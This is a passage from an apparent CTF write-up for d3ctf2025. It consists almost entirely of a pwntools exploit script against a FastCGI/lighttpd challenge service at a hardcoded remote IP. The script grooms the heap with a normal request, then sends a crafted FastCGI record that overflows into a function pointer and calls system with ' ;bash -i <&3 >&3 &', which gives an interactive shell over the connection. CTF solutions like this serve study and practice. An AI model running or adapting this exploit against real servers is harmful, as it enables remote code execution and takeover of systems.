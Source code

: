```python
#!/usr/bin/env python3
from pwn import *

exe = context.binary = ELF('./files/challenge')

def start():
    return remote("35.241.98.126", 32232)
    # return remote("127.0.0.1", 9999)

def makeHeader(reqType: int, reqId: int, contentLen: int, padLen: int) -> bytes:
    return p8(1) + p8(reqType) + p16(reqId) + p16(contentLen)[::-1] + p8(padLen) + p8(0)

def makeBeginReqBody(role: int, flags: int) -> bytes:
    return p16(role)[::-1] + p8(flags) + b"\x00" * 5

# NOTE: didn't handle messy environment like official writeup

# First, send a normal request to set up heap
io = start()
io.send(
    b'\x01\x01\x00\x01\x00\x08\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x01\x04'
    b'\x00\x01\x01\xae\x00\x00\x0e\x01CONTENT_LENGTH0\x0c\x00QUERY_STRING'
    b'\x0b\x01REQUEST_URI/\x0f\x03REDIRECT_STATUS200\x0b\x01SCRIPT_NAME/'
    b'\x0f\x0eSCRIPT_FILENAME/home/ctf/www/\r\rDOCUMENT_ROOT/home/ctf/www'
    b'\x0e\x03REQUEST_METHODGET\x0f\x08SERVER_PROTOCOLHTTP/1.1\x0f\x0fSERVER_SOFTWARElighttpd/1.4.79'
    b'\x11\x07GATEWAY_INTERFACECGI/1.1\x0e\x04REQUEST_SCHEMEhttp\x0b\x04SERVER_PORT8888'
    b'\x0b\tSERVER_ADDR127.0.0.1\x0b\tSERVER_NAME127.0.0.1\x0b\tREMOTE_ADDR127.0.0.1'
    b'\x0b\x05REMOTE_PORT47740\t\x0eHTTP_HOST127.0.0.1:8888\x0f\x0bHTTP_USER_AGENTcurl/8.14.0'
    b'\x0b\x03HTTP_ACCEPT*/*\x01\x04\x00\x01\x00\x00\x00\x00\x01\x05\x00\x01\x00\x00\x00\x00'
)
io.recvuntil(b'HELLO!')
io.close()

# Seccond, make a malicious payload
io = start()
io.send(
    makeHeader(1, 1, 8, 0) + makeBeginReqBody(1, 0) + makeHeader(9, 0, 900, 0) + \
        p8(0) * 2 + \
        p32(0xffffffff) * 2 + cyclic(16) + b" ;bash -i <&3 >&3 &".ljust(20) + \
        p32(0) * 3 + p32(exe.plt["system"])
)

io.interactive()
```

{% note default fa-flag %}
<img src="/assets/d3ctf2025/flag.png" width="75%">
{% endnote %}

## 参考

